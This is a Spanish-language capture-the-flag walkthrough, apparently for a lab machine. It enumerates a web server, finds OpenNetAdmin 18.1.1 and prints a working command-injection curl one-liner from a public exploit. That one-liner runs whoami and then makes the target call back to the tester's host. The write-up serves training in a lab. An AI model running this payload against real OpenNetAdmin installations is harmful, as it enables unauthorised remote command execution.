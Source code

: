 #### Whatweb {-}

```bash
whatweb http://10.10.10.171
```

Es un Apache 2.4.29 en un Ubuntu. 


#### Checkear la web {-}

Si entramos en la url `http://10.10.10.171`, Vemos la Apache2 default page.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.171/FUZZ
```

Vemos un directorio `/arcwork` que no nos muestra gran cosa. Tambien vemos un directorio `/music` y vemos que el login nos lleva a un directorio
`/ona`

Pinchamos y llegamos a un panel de administracion de `opennetadmin`
## Vulnerability Assessment {-}


### opennetadmin {-}

```bash
searchsploit opennetadmin
```

Aqui vemos un exploit en bash para para el opennetadmin 18.1.1 y en la web estamos frente a uno de esta misma version

```bash
searchsploit -x 47691
```

Vemos que es un simple oneliner que envia con curl una peticion por POST. Intentamos con un whoami

```bash
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";whoami;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1 | html2text
```

Vemos que esto funcciona sin problemas. Intentamos ver si tenemos conectividad con la maquina.

1. Lanzamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos una peticion curl a nuestra maquina

    ```bash
    curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.8;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    ```

